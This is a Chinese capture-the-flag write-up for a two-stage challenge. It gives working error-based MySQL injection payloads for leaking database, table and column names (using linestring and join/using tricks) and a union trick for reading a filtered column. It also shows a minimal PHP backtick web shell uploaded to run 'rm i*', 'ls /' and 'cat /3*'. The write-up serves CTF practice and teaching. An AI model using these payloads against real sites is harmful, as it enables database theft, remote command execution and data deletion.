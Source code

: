## 他们有什么秘密呢? writeup

题目由两部分组成，第一部分是一个sqli，第二部分是一个文件上传+命令执行

### 第一部分

第一个入口

http://182.254.246.93/entrance.php

id=3时，product name = nextentrance，再结合源代码里面的提示，可以得出，我们的目的是得到整个表的信息~

这里基本没有过滤，但是不能使用information_schema表，也就无从获取表名和字段信息了,当然，不会是爆破。

此外，可以发现开启了报错，所以我们可以用一些小技巧，来查出表名，字段名。

mysql很灵活，这里有多种解法的。

#### 获取数据库名

根据mysql的特性，用一个不存在的自定义函数，就可以爆出数据库名

pro_id=a()

得到数据库名 youcanneverfindme17

#### 获取表名

有一篇文章提到过，当开启报错时，polygon函数可以用来获取当前表名和其字段名，不过这里我将polygon过滤掉了，

前往

>https://dev.mysql.com/doc/refman/5.5/en/func-op-summary-ref.html 

把这几百个函数用正则处理下来，然后fuzz，会发现还有其它函数可以用


>multiPolygon(id)
>multilinestring(id)
>linestring(id)
>GeometryCollection(id)
>MultiPoint(id)
>polugon(id)

我这里过滤的时候，专门漏了linestring，用它爆出当前表名

pro_id=1 and linestring(pro_id)

#### 获取字段名

接下来就是需要得到表product_2017ctf的字段名了

开启了报错，所以这里可以使用using+join的方法来获取，

```
pro_id=1 union select * from (select * from product_2017ctf as A join product_2017ctf as B using(pro_id)) as C
```

得到字段名:pro_id pro_name owner d067a0fa9dc61a6e

#### 获取表内容

理论上用联合查询就可以查出来了，不过这里我把最后一个字段名过滤了，

所以要在不出现字段名的情况下查出内容，将一个虚拟表和当前表联合起来即可

pro_id=-1 union select 1,a.4,3,4 from (select 1,2,3,4 from dual union select * from product_2017ctf)a limit 3,1; 

得到关键内容:7195ca99696b5a896.php


根据tip，结合一下，得到下一关入口:

d067a0fa9dc61a6e7195ca99696b5a896.php


其实这里方法是很多的，使用移位注入和比较注入同样可以查出表内容，都不需要用到字段名~

### 第二部分

上传后缀和内容都没有限制，只有一个长度的限制，还是挺简单的

创建z.php

<?=`*`;

创建bash 内容任意

创建bash2 存放要执行的命令

由于每个人的上传目录下有一个index.html，所以先要把它删掉

所以第一次执行z.php时，bash2文件内容为:

>rm i*

第二次执行z.php时，bash2文件的内容为:

>ls /

因为长度的限制，所以flag的位置肯定在根目录下的，

cat /3*

得到flag

这个是最简单的方法，也可以用wget写一个shell到目录下~
